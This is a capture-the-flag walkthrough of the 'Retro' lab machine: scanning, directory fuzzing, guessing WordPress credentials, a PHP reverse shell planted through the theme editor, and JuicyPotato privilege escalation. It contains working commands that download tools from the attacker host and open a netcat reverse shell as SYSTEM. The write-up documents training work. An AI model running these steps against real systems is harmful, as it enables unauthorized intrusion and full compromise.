






# Retro

New high score!

## Port scanning

```bash
export IP=10.10.144.234

rustscan -a $IP
```
```bash    
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/martian/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.123.19:80
Open 10.10.123.19:3389
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-08 00:48 +04
Initiating Ping Scan at 00:48
Scanning 10.10.123.19 [2 ports]
Completed Ping Scan at 00:48, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:48
Completed Parallel DNS resolution of 1 host. at 00:48, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:48
Scanning 10.10.123.19 [2 ports]
Discovered open port 3389/tcp on 10.10.123.19
Discovered open port 80/tcp on 10.10.123.19
Completed Connect Scan at 00:48, 0.11s elapsed (2 total ports)
Nmap scan report for 10.10.123.19
Host is up, received syn-ack (0.11s latency).
Scanned at 2024-08-08 00:48:29 +04 for 0s

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack
3389/tcp open  ms-wbt-server syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds

```


## Port 80

### ffuf

***ffuf gives us the directory named "retro" which is the answer of the first question.***

```bash
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -u http://$IP/FUZZ                    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.123.19/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1216ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1216ms]
# Priority ordered case insensative list, where entries were found  [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1216ms]
# directory-list-lowercase-2.3-medium.txt [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1217ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1216ms]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1216ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1217ms]
                        [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1218ms]
# Copyright 2007 James Fisher [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1219ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1224ms]
# on atleast 2 different hosts [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1224ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1224ms]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1224ms]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 1223ms]
retro                   [Status: 301, Size: 149, Words: 9, Lines: 2, Duration: 219ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
trying again on /retro directory.

```bash
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -u http://$IP/retro/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.123.19/retro/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

#                       [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 1471ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 1771ms]
#                       [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 1895ms]
# directory-list-lowercase-2.3-medium.txt [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 2499ms]
                        [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 2807ms]
#                       [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 2857ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3117ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3436ms]
# Copyright 2007 James Fisher [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3463ms]
# Priority ordered case insensative list, where entries were found  [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3484ms]
#                       [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3509ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3529ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3689ms]
wp-content              [Status: 301, Size: 160, Words: 9, Lines: 2, Duration: 209ms]
# on atleast 2 different hosts [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 3999ms]
wp-includes             [Status: 301, Size: 161, Words: 9, Lines: 2, Duration: 118ms]
wp-admin                [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 117ms]
                        [Status: 200, Size: 30515, Words: 2531, Lines: 546, Duration: 1296ms]
```

We can find the probable username of the admin from the home page.       


On one of the blogs Wade mentions that the "wade" is the main from his favorite book. And "I keep mistyping the name of his avatar whenever I log in" indicates the password is Wade's avatars name most probably. A simple google search reveals it to be "parzival". Trying wade:parzival combo lets us into the admin panel.



## Port 3389

We can also try this combo on Port 3389 which is the default RDP port. I used **remmina** for this.




Now We can get user.txt from the desktop.




## Privilage Escelation

For this we need to go back to the admin page. On "Appearance > Theme Editor" change the "index.php" file to a reverse shell. You can get it form [here](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) 




Don't forget to change the ip and the port.




Start the listener.


And go to the "10.10.123.19/retro/" home page.

And we get the shell.



As we can see, the user retro has the ‘SeImpersonatePrivilege’ enabled that we need to leverage our access to SYSTEM so let’s try to use a Juicy Tomato attack on this one. Exploit can be found[here.](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)


Next we need to start a webserver to serve the exploit to the target.

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine.


Invoke-WebRequest http://10.11.83.38/JuicyPotato.exe -outfile jp.exe

```powershell
PS C:\> mkdir test


    Directory: C:\


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----         8/7/2024   2:46 PM                test                          


PS C:\> cd test
PS C:\test> Invoke-WebRequest http://10.11.83.38/JuicyPotato.exe -outfile jp.exe
PS C:\test> ls


    Directory: C:\test


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----         8/7/2024   2:46 PM         347648 jp.exe                        


PS C:\test> 
```

Next We need netcat on the system.

Invoke-WebRequest http://10.11.83.38/nc64.exe -outfile nc64.exe


and 

.\jp.exe -l 1338 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p C:/windows/system32/cmd.exe -a "/c C:/test/nc64.exe -e cmd.exe 10.11.83.38 4445" -t *


```bash
└─$ nc -lnvp 4445                                
listening on [any] 4445 ...
connect to [10.11.83.38] from (UNKNOWN) [10.10.123.19] 50121
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd \     
cd \

C:\>whoami
whoami
nt authority\system

C:\>

```
```bash
C:\>cd users
cd users

C:\Users>cd administrator
cd administrator

C:\Users\Administrator>type root.txt
type root.txt
The system cannot find the file specified.

C:\Users\Administrator>cd desktop
cd desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
The system cannot find the file specified.

C:\Users\Administrator\Desktop>dit
dit
'dit' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7443-948C

 Directory of C:\Users\Administrator\Desktop

12/08/2019  09:06 PM    <DIR>          .
12/08/2019  09:06 PM    <DIR>          ..
12/08/2019  09:08 PM                32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30,397,718,528 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
{HIDDEN}
C:\Users\Administrator\Desktop>
```